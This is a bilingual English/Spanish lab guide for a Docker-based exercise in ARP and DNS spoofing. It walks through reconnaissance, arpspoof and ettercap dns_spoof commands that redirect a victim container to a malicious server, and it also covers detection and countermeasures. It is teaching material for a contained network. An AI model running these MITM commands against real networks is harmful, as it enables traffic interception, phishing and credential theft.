








# Laboratory 1: ARP Spoofing and DNS Spoofing in Docker Networks

!!! info "Laboratory Objectives"
    - Understand the concepts of ARP Spoofing and DNS Spoofing
    - Learn to perform these attacks within a Docker network
    - Configure a controlled environment for security testing
    - Use specialized tools for network analysis

## 📋 Fundamental Concepts

### What is ARP Spoofing?

!!! note "ARP Spoofing Definition"
    **ARP Spoofing** (also known as ARP Poisoning) is an attack technique where an attacker sends falsified ARP messages in a local network to associate their MAC address with another host's IP address. In this laboratory, the attacker impersonates the **DNS server** to intercept the victim's DNS queries.

!!! info "Man-in-the-Middle (MITM) Concept"
    A **MITM** attack is a technique where the attacker secretly positions themselves between two parties who believe they are communicating directly with each other. In this laboratory:
    
    - The attacker positions themselves between the **victim** (192.168.1.30) and the **DNS server** (192.168.1.4)
    - **Intercepts** all DNS queries from the victim
    - **Modifies** DNS responses to redirect traffic to the malicious server
    - **Redirects** HTTP traffic to the malicious server (192.168.1.100)

#### How does ARP work?



#### ARP Spoofing in action



### What is DNS Spoofing?

!!! note "DNS Spoofing Definition"
    **DNS Spoofing** is a technique where the attacker positions themselves as an intermediary (MITM) between the victim and the DNS server to intercept and modify DNS responses, redirecting traffic towards malicious servers.

## 🏗️ Complete Step-by-Step Manual Attack Guide

This section provides a detailed manual approach to understanding and executing ARP and DNS spoofing attacks without automated scripts. This helps you understand the underlying concepts and tools.

### Phase 1: Environment Preparation and Reconnaissance

#### Step 1.1: Launch the Docker Environment

First, ensure the Docker environment is running:

```bash
# Navigate to the project directory
cd /home/moonb/TFM-Labos/src

# Start all containers
docker-compose up -d

# Verify all containers are running
docker-compose ps
```

Expected output should show all containers in "Up" state:
- `kali_attacker` (192.168.1.20)
- `http_requester` (192.168.1.30) - Our victim
- `web_server` (192.168.1.10) - Legitimate server
- `evil_web_server` (192.168.1.100) - Malicious server
- `dns` (192.168.1.4) - DNS server

#### Step 1.2: Access the Attacker Container

```bash
# Enter the Kali Linux attacker container
docker-compose exec kali_attacker bash
```

#### Step 1.3: Network Reconnaissance

Before starting any attack, perform reconnaissance to understand the network:

```bash
# Check your network interface
ip addr show eth0

# View current routing table
ip route show

# Discover active hosts on the network
nmap -sn 192.168.1.0/24

# Alternative host discovery
arp-scan -l

# Check current ARP table
arp -a
```

#### Step 1.4: Verify Tool Availability

Check that all required tools are installed:

```bash
# Check ettercap installation
ettercap --version

# List available ettercap plugins
ettercap -P list | grep dns_spoof

# Check dsniff tools
which arpspoof
which dnsspoof

# Check network capture tools
which tcpdump
which wireshark
```

### Phase 2: Understanding Normal Network Behavior

#### Step 2.1: Observe Normal DNS Resolution

Before attacking, observe how normal DNS resolution works:

```bash
# In attacker container, monitor DNS traffic
tcpdump -i eth0 port 53 &

# In another terminal, access the victim container
docker-compose exec http_requester sh

# From victim, perform normal DNS lookup
nslookup goodserver.com
dig goodserver.com

# Check ARP table on victim
arp -a
```

Expected normal behavior:
- DNS queries go to 192.168.1.4 (DNS server)
- `goodserver.com` resolves to 192.168.1.10 (legitimate server)
- ARP table shows correct MAC addresses

#### Step 2.2: Test Normal HTTP Connectivity

```bash
# From victim container, test HTTP connectivity
curl -H "Host: goodserver.com" http://192.168.1.10

# Should return legitimate server response
```

### Phase 3: Manual ARP Spoofing Implementation

#### Step 3.1: Enable IP Forwarding

On the attacker machine, enable IP forwarding to act as a router:

```bash
# Check current forwarding status
cat /proc/sys/net/ipv4/ip_forward

# Enable IP forwarding
echo 1 > /proc/sys/net/ipv4/ip_forward

# Verify it's enabled
sysctl net.ipv4.ip_forward
```

#### Step 3.2: Understand ARP Spoofing Theory

ARP spoofing works by sending fake ARP replies to associate the attacker's MAC address with the target IP:

```bash
# Check your MAC address
ip addr show eth0 | grep ether

# Check target's current ARP entry
arp -a | grep 192.168.1.4  # DNS server
```

#### Step 3.3: Manual ARP Spoofing with arpspoof

Start ARP spoofing to make the victim believe the attacker is the DNS server:

```bash
# Spoof ARP: Tell victim (192.168.1.30) that DNS server (192.168.1.4) is at attacker's MAC
arpspoof -i eth0 -t 192.168.1.30 192.168.1.4

# In another terminal, you can also do bidirectional spoofing (optional)
# arpspoof -i eth0 -t 192.168.1.4 192.168.1.30
```

#### Step 3.4: Verify ARP Spoofing Success

In a separate terminal, check if the victim's ARP table has been poisoned:

```bash
# Access victim container
docker-compose exec http_requester arp -a

# Look for 192.168.1.4 (DNS server)
# The MAC address should now match the attacker's MAC address
```

### Phase 4: Manual DNS Spoofing Implementation

#### Step 4.1: Create DNS Spoofing Configuration

Create a configuration file for DNS spoofing:

```bash
# Create ettercap DNS configuration file
cat > /tmp/etter.dns << EOF
# DNS spoofing configuration
goodserver.com      A   192.168.1.100
www.goodserver.com  A   192.168.1.100
*.goodserver.com    A   192.168.1.100
EOF

# Copy to ettercap directory
cp /tmp/etter.dns /etc/ettercap/etter.dns
```

#### Step 4.2: Manual DNS Spoofing with ettercap

While ARP spoofing is running, start DNS spoofing:

```bash
# Stop previous arpspoof if running
killall arpspoof

# Start ettercap with both ARP and DNS spoofing
ettercap -T -i eth0 -M arp:remote /$VICTIM_IP// /$DNS_SERVER// -P dns_spoof

# Replace variables with actual IPs:
ettercap -T -i eth0 -M arp:remote /192.168.1.30// /192.168.1.4// -P dns_spoof
```

#### Step 4.3: Verify DNS Spoofing Success

Test if DNS queries are being intercepted and modified:

```bash
# From victim container
docker-compose exec http_requester nslookup goodserver.com

# Should now return 192.168.1.100 (malicious server) instead of 192.168.1.10
```

### Phase 5: Attack Verification and Traffic Analysis

#### Step 5.1: Monitor Intercepted Traffic

Capture and analyze the attack traffic:

```bash
# Start packet capture
tcpdump -i eth0 -w /tmp/attack_capture.pcap &

# Monitor specific types of traffic
tcpdump -i eth0 port 53                 # DNS traffic
tcpdump -i eth0 port 80                 # HTTP traffic
tcpdump -i eth0 arp                     # ARP traffic
```

#### Step 5.2: Test Complete Attack Chain

From the victim, test the complete attack:

```bash
# In victim container
docker-compose exec http_requester sh

# Test DNS resolution
nslookup goodserver.com
# Should return 192.168.1.100

# Test HTTP request
curl -H "Host: goodserver.com" http://goodserver.com
# Should connect to malicious server (192.168.1.100)
```

#### Step 5.3: Compare with Legitimate Traffic

Test legitimate traffic to see the difference:

```bash
# Direct query to legitimate server
curl -H "Host: goodserver.com" http://192.168.1.10

# Direct query to malicious server
curl -H "Host: goodserver.com" http://192.168.1.100
```

### Phase 6: Advanced Monitoring and Analysis

#### Step 6.1: Real-time Traffic Monitoring

Monitor the attack in real-time:

```bash
# Watch ARP table changes
watch -n 1 'arp -a'

# Monitor DNS queries
tcpdump -i eth0 -n port 53 -A

# Monitor HTTP requests
tcpdump -i eth0 -n port 80 -A
```

#### Step 6.2: Traffic Analysis with Wireshark

If you want to analyze captured traffic:

```bash
# Copy capture file to host for analysis
docker cp $(docker-compose ps -q kali_attacker):/tmp/attack_capture.pcap ./

# Or analyze with tshark in container
tshark -r /tmp/attack_capture.pcap -Y "dns or arp or http"
```

### Phase 7: Attack Cleanup and Restoration

#### Step 7.1: Stop Attacks

Properly stop all attack processes:

```bash
# Stop ettercap
killall ettercap

# Stop arpspoof if running separately
killall arpspoof

# Stop tcpdump
killall tcpdump
```

#### Step 7.2: Restore Normal Network State

```bash
# Clear ARP caches (if possible)
# From victim container:
docker-compose exec http_requester ip neigh flush all

# Verify DNS resolution is back to normal
docker-compose exec http_requester nslookup goodserver.com
# Should return 192.168.1.10 again
```

## 🔧 Tool-Specific Configurations and Usage

### Ettercap Configuration

#### Basic Ettercap Usage

```bash
# Text mode with ARP spoofing
ettercap -T -i eth0 -M arp:remote /target1// /target2//

# List available plugins
ettercap -P list

# Use specific plugin
ettercap -T -i eth0 -M arp:remote /victim// /target// -P plugin_name
```

#### Ettercap DNS Configuration

The DNS spoofing plugin requires a configuration file:

```bash
# Location: /etc/ettercap/etter.dns
# Format:
domain.com    A    IP_ADDRESS
*.domain.com  A    IP_ADDRESS
domain.com    AAAA ::1           # IPv6 redirect to localhost
```

### Dsniff Tools Configuration

#### Arpspoof Usage

```bash
# Basic syntax
arpspoof -i interface -t target gateway

# Bidirectional spoofing
arpspoof -i eth0 -t 192.168.1.30 192.168.1.4 &
arpspoof -i eth0 -t 192.168.1.4 192.168.1.30 &
```

#### Dnsspoof Usage

```bash
# Basic DNS spoofing (requires ARP spoofing first)
dnsspoof -i eth0 -f /path/to/hosts_file

# Hosts file format:
# 192.168.1.100 goodserver.com
# 192.168.1.100 www.goodserver.com
```

## 🚀 Automated Scripts Usage

After understanding the manual process, you can use the provided automated scripts:

### Quick Start with Scripts

```bash
# Access attacker container
docker-compose exec kali_attacker bash

# Use interactive menu
/scripts/lab1_menu.sh

# Or use individual scripts:
/scripts/network_recon.sh                                    # Network discovery
/scripts/arp_spoof.sh 192.168.1.30 192.168.1.4             # ARP spoofing
/scripts/dns_spoof.sh 192.168.1.30 192.168.1.4 192.168.1.100 goodserver.com  # Combined attack
/scripts/traffic_capture.sh eth0 180                        # Traffic capture
/scripts/verify_tools.sh                                    # Tool verification
```

### What is DNS Spoofing?

!!! note "DNS Spoofing Definition"
    **DNS Spoofing** es una técnica donde el atacante se posiciona como intermediario (MITM) entre la víctima y el servidor DNS para interceptar y modificar las respuestas DNS, redirigiendo el tráfico hacia servidores maliciosos.

#### Normal DNS flow



#### MITM DNS Spoofing flow



#### DNS Spoofing in action



## 🐳 Docker Environment Configuration

### Laboratory Architecture



### System Requirements

!!! warning "Required Privileges"
    To perform ARP spoofing in Docker, we need:
    
    - Elevated network capabilities (`NET_ADMIN`, `NET_RAW`)
    - Custom bridge network (not macvlan for this lab)
    - Containers with specialized network tools

## 🔧 Environment Preparation

### Step 1: Network Configuration

The configuration has been optimized to use **bridge** instead of **macvlan**:

!!! tip "Why Bridge instead of Macvlan?"
    - **Bridge**: Allows ARP spoofing between containers on the same network
    - **Macvlan**: Containers get unique MACs, more difficult for internal spoofing
    - **Bridge** better simulates a traditional LAN network

### Step 2: Attacker Container

The laboratory includes a specialized container:

#### Kali Linux Attacker (192.168.1.20)
```dockerfile
FROM kalilinux/kali-rolling
# Tools: ettercap, dsniff, nmap, tcpdump, python3-scapy
```

### Step 3: Start the Environment

```bash
# Build and run all containers
docker-compose up -d

# Verify all containers are active
docker-compose ps

# Access the Kali container
docker-compose exec kali_attacker bash
```

## 🎯 Attack Execution

### ARP Spoofing

#### Method 1: Using Ettercap (Kali Container)

```bash
# Access the Kali container
docker-compose exec kali_attacker bash

# Execute reconnaissance script
/scripts/network_recon.sh

# View ARP table before attack
arp -a

# Execute automatic ARP spoofing
/scripts/arp_spoof.sh 192.168.1.30 192.168.1.1

# Or use the interactive menu
/scripts/lab1_menu.sh
```

#### Attack Verification

!!! example "Verify ARP Spoofing"
    ```bash
    # In the victim container (requester)
    docker-compose exec http_requester sh
    arp -a
    # Should show the attacker's MAC for the gateway
    ```

### DNS Spoofing

#### Method 1: ARP Spoofing against the DNS server

The attacker impersonates the DNS server to directly intercept the victim's DNS queries:

```bash
# En el contenedor Kali
# Method 1: DNS spoofing script (recommended)
/scripts/dns_spoof.sh 192.168.1.30 192.168.1.4 192.168.1.100 goodserver.com

# Method 2: Use interactive menu
/scripts/lab1_menu.sh
# Seleccionar opción 4 (DNS Spoofing)
```

!!! info "How the complete MITM works"
    1. **ARP Spoofing**: The attacker impersonates the DNS server (192.168.1.4) by sending false ARP responses
    2. **DNS Interception**: The victim sends DNS queries directly to the attacker believing it's the DNS server
    3. **Malicious Response**: The attacker responds with the malicious server's IP without consulting the real DNS
    4. **Redirection**: The victim receives the malicious server's IP (192.168.1.100) and connects to it

!!! warning "Important Configuration"
    The attack works completely within the Docker network:
    
    - **ARP spoofing target**: DNS Server (192.168.1.4), not the gateway
    - **Victim**: HTTP requester container (192.168.1.30)
    - **Malicious server**: Evil web server (192.168.1.100)
    - **No external traffic**: Everything remains within Docker's bridge network

### Combined Attacks

!!! warning "Complete MITM Attack - Explanation"
    In this laboratory, the attack is simplified because it's completely internal:
    
    **Single attack: DNS Spoofing with integrated ARP Spoofing**
    ```bash
    # The attacker impersonates the DNS server
    /scripts/dns_spoof.sh 192.168.1.30 192.168.1.4 192.168.1.100 goodserver.com
    ```
    
    **Alternatively, use the interactive menu:**
    ```bash
    # Use interactive menu
    /scripts/lab1_menu.sh
    # Select option 4 for DNS spoofing
    ```
    
    **Monitoring (Optional):**
    ```bash
    # Capture all traffic for analysis
    /scripts/traffic_capture.sh eth0 300
    ```

!!! tip "Tool Verification"
    Before executing attacks, verify that all tools are correctly installed:
    ```bash
    /scripts/verify_tools.sh
    ```

!!! tip "MITM Attack Flow"
    1. **Victim** (192.168.1.30) needs to resolve `goodserver.com`
    2. **Attacker** (192.168.1.20) impersonates the DNS server (192.168.1.4) via ARP spoofing
    3. **DNS Query** goes directly to the attacker instead of the real DNS server
    4. **Attacker** responds with the malicious server's IP (192.168.1.100)
    5. **Victim** connects to the malicious server believing it's the legitimate server

!!! tip "Flujo del ataque MITM"
    1. **Víctima** (192.168.1.30) intenta comunicarse con el gateway
    2. **Atacante** (192.168.1.20) responde con su propia MAC via ARP spoofing
    3. **Todo el tráfico** de la víctima pasa por el atacante
    4. **Consultas DNS** son interceptadas y modificadas antes de llegar al DNS server
    5. **Víctima recibe** respuesta DNS modificada que apunta al servidor malicioso

## 🎯 Detailed MITM Attack Explanation

### Phase 1: Attacker Preparation

The attacker needs to position themselves as an intermediary between the victim and the DNS server.



### Phase 2: DNS Interception and Modification

The attacker impersonates the DNS server and responds directly to queries:



### Phase 3: Exploitation

The victim, unknowingly, is communicating with the malicious server:

!!! danger "Consequences of successful attack"
    - **Credential theft**: The malicious server can present fake forms
    - **Malware injection**: Can serve malicious content 
    - **Data exfiltration**: All traffic passes through the attacker
    - **Advanced phishing**: Fake websites with valid certificates (if using HTTPS spoofing)

## 🔍 Monitoring and Analysis

### Traffic Capture

```bash
# Capture traffic on container interface
tcpdump -i eth0 -w /tmp/capture.pcap

# Filter only ARP traffic
tcpdump -i eth0 arp

# Filter only HTTP traffic
tcpdump -i eth0 port 80
```

### Log Analysis

!!! info "Monitoring Points"
    1. **DNS Server**: DNS query logs
    2. **Web Servers**: HTTP access logs
    3. **Attacker**: Intercepted traffic
    4. **Victim**: ARP table changes

## 🛡️ Detection and Prevention

### Compromise Indicators

!!! warning "Signs of ARP Spoofing"
    - Frequent changes in ARP table
    - Multiple MACs for the same IP
    - Unusual network latency
    - Invalid SSL/TLS certificates

### Countermeasures

```bash
# Static ARP (prevention)
arp -s 192.168.1.1 aa:bb:cc:dd:ee:ff

# Continuous ARP monitoring
watch -n 1 'arp -a'

# DNS spoofing detection
dig goodserver.com @8.8.8.8  # Verify with external DNS
```

## 🧪 Practical Laboratory

### Exercise 1: Basic ARP Spoofing

!!! question "Task 1.1: Reconnaissance"
    1. Launch the environment: `docker-compose up -d`
    2. Access the Kali container: `docker-compose exec kali_attacker bash`
    3. Execute reconnaissance: `/scripts/network_recon.sh`
    4. Identify all active hosts on the network

!!! question "Task 1.2: ARP Spoofing"
    1. Execute the interactive menu: `/scripts/lab1_menu.sh`
    2. Select option 3 (ARP Spoofing)
    3. Configure victim: `192.168.1.30` and gateway: `192.168.1.1`
    4. Verify in separate terminal: `docker-compose exec http_requester arp -a`

### Exercise 2: DNS Spoofing

!!! question "Task 2.1: Configuración del MITM completo"
    
    **Opción A: Verificar herramientas primero**
    ```bash
    docker-compose exec kali_attacker bash
    /scripts/verify_tools.sh
    ```
    
    **Opción B: Usar el menú interactivo (recomendado)**
    ```bash
    docker-compose exec kali_attacker bash
    /scripts/lab1_menu.sh
    # Seleccionar opción 4 (DNS Spoofing)
    ```
    
    **Option C: Manual method (for learning)**
    ```bash
    docker-compose exec kali_attacker bash
    /scripts/dns_spoof.sh 192.168.1.30 192.168.1.4 192.168.1.100 goodserver.com
    ```
    
    **Verificación del ataque:**
    1. **Verificar tabla ARP en víctima**: Comprobar que el DNS server está comprometido
       ```bash
       docker-compose exec http_requester arp -a
       # Debería mostrar la MAC del atacante para el DNS server (192.168.1.4)
       ```
    
    2. **Verificar DNS**: Comprobar que las consultas DNS están siendo redirigidas
       ```bash
       docker-compose exec http_requester nslookup goodserver.com
       # Debería devolver 192.168.1.100 (servidor malicioso)
       ```

!!! question "Task 2.2: Análisis del tráfico interceptado"
    1. En un segundo terminal, iniciar captura de tráfico:
       ```bash
       docker-compose exec kali_attacker /scripts/traffic_capture.sh eth0 180
       ```
    2. Observar cómo las consultas DNS van directamente al atacante
    3. Verificar que no hay comunicación con el DNS server real (192.168.1.4)

!!! question "Task 2.3: Troubleshooting"
    If attacks don't work, run diagnostics:
    ```bash
    # Verificar herramientas
    docker-compose exec kali_attacker /scripts/verify_tools.sh
    
    # Verificar estado de la red
    docker-compose exec kali_attacker /scripts/lab1_menu.sh
    # Seleccionar opción 7 (Verificar estado de la red)
    ```

### Exercise 3: Forensic Analysis

!!! question "Task 3.1: Forensic Analysis"
    1. Execute capture: `/scripts/traffic_capture.sh eth0 180`
    2. Analyze generated `.pcap` file
    3. Identify attack patterns in traffic
    4. Document found evidence

### Comandos Útiles para Verificación

```bash
# Verificar servicios activos
docker-compose ps

# Monitorear logs del requester
docker-compose logs -f http_requester

# Ver logs del DNS server
docker-compose logs -f dns

# Acceso directo a contenedores
docker-compose exec kali_attacker /scripts/lab1_menu.sh
docker-compose exec parrot_attacker bash

# Verificar conectividad entre contenedores
docker-compose exec http_requester ping 192.168.1.20  # Kali
docker-compose exec http_requester ping 192.168.1.21  # Parrot
```

## 📊 Resultados Esperados

### Antes del Ataque

```bash
# Tabla ARP en víctima
Gateway (192.168.1.1) at aa:bb:cc:dd:ee:ff [ether] on eth0

# DNS Resolution
goodserver.com. 300 IN A 192.168.1.10
```

### Durante el Ataque

```bash
# Tabla ARP en víctima (comprometida)
DNS Server (192.168.1.4) at xx:yy:zz:aa:bb:cc [ether] on eth0  # MAC del atacante

# DNS Resolution (comprometida)
goodserver.com. 300 IN A 192.168.1.100  # IP del servidor malicioso

# Flujo del tráfico
Víctima (192.168.1.30) -> Atacante (192.168.1.20) -> Servidor Malicioso (192.168.1.100)
```

!!! info "Explicación del flujo comprometido"
    1. **Víctima**: Intenta resolver `goodserver.com` 
    2. **Consulta DNS**: Va hacia el atacante (que se hace pasar por el servidor DNS)
    3. **Atacante**: Responde directamente con la IP del servidor malicioso (NO consulta al DNS real)
    4. **Víctima**: Recibe `192.168.1.100` en lugar de `192.168.1.10`
    5. **Conexión HTTP**: Se establece con el servidor malicioso sin que la víctima lo sepa
    6. **DNS real**: Nunca recibe la consulta, permanece completamente ajeno al ataque

## 🔧 Available Tools

### Kali Linux Container (192.168.1.20)

| Tool | Purpose | Typical Usage |
|-------------|-----------|------------|
| **ettercap** | Classic ARP/DNS spoofing | `ettercap -T -M arp:remote /victim// /gateway//` |
| **tcpdump** | Packet capture | `tcpdump -i eth0 -w capture.pcap` |
| **nmap** | Network reconnaissance | `nmap -sn 192.168.1.0/24` |
| **arp-scan** | ARP discovery | `arp-scan -l` |
| **dsniff** | MITM tool suite | `arpspoof -i eth0 -t victim gateway` |

### Parrot Security Container (192.168.1.21)

| Tool | Purpose | Typical Usage |
|-------------|-----------|------------|
| **bettercap** | Modern MITM framework | `bettercap -iface eth0` |
| **mitmproxy** | Interactive HTTP/HTTPS proxy | `mitmdump --mode transparent` |
| **masscan** | Fast port scanning | `masscan -p80,443 192.168.1.0/24` |
| **scapy** | Python packet manipulation | Custom scripts |

### Automated Scripts

```bash
# Available scripts in /scripts/
├── lab1_menu.sh          # Main interactive menu
├── network_recon.sh      # Automatic reconnaissance
├── arp_spoof.sh         # ARP spoofing with ettercap
├── dns_spoof.sh         # Combined DNS spoofing (FIXED)
├── traffic_capture.sh   # Traffic capture (IMPROVED)
├── monitor.sh           # Monitor ARP/DNS changes
└── verify_tools.sh      # Tool verification (NEW)
```

!!! info "Script improvements made"
    **dns_spoof.sh**: Fixed to perform ARP spoofing against DNS server (192.168.1.4)
    **arp_spoof.sh**: Updated to support both gateway and DNS server as target
    **traffic_capture.sh**: Improved process handling and cleanup
    **verify_tools.sh**: New script to verify tool installation
    **lab1_menu.sh**: Updated with correct parameters for the laboratory

## 🐛 Troubleshooting

### Problemas Comunes en MITM

!!! warning "Herramientas no instaladas correctamente"
    ```bash
    # Verificar instalación de herramientas
    docker-compose exec kali_attacker /scripts/verify_tools.sh
    
    # Si ettercap no funciona, reconstruir el contenedor
    docker-compose build --no-cache kali_attacker
    ```

!!! warning "El ARP spoofing no funciona"
    ```bash
    # Verificar que el IP forwarding está habilitado
    docker-compose exec kali_attacker cat /proc/sys/net/ipv4/ip_forward
    
    # Habilitarlo manualmente si es necesario
    docker-compose exec kali_attacker sh -c "echo 1 > /proc/sys/net/ipv4/ip_forward"
    
    # Verificar capacidades de red
    docker-compose exec kali_attacker capsh --print
    ```

!!! warning "DNS spoofing no redirecciona correctamente"
    ```bash
    # Verificar que ettercap tiene el plugin dns_spoof
    docker-compose exec kali_attacker ettercap -P list | grep dns_spoof
    
    # Verificar que el archivo de configuración DNS existe
    docker-compose exec kali_attacker cat /tmp/dns_spoof.conf
    
    # Verificar que el ataque usa el DNS server correcto
    docker-compose exec kali_attacker ping 192.168.1.4
    ```

!!! warning "El tráfico no pasa por el atacante"
    ```bash
    # Verificar la tabla ARP de la víctima
    docker-compose exec http_requester arp -a
    
    # Debería mostrar la MAC del atacante para el DNS server (192.168.1.4)
    # Si no, verificar que el ARP spoofing esté activo
    
    # Monitorear tráfico DNS en tiempo real
    docker-compose exec kali_attacker tcpdump -i eth0 -n port 53
    ```

### Comandos de Diagnóstico MITM

```bash
# Script de verificación completa
docker-compose exec kali_attacker /scripts/verify_tools.sh

# Verificar estado del ataque ARP
docker-compose exec kali_attacker arp -a

# Verificar que el atacante está recibiendo tráfico de la víctima
docker-compose exec kali_attacker tcpdump -i eth0 src 192.168.1.30

# Verificar resolución DNS comprometida
docker-compose exec http_requester nslookup goodserver.com

# Verificar conectividad HTTP al servidor malicioso
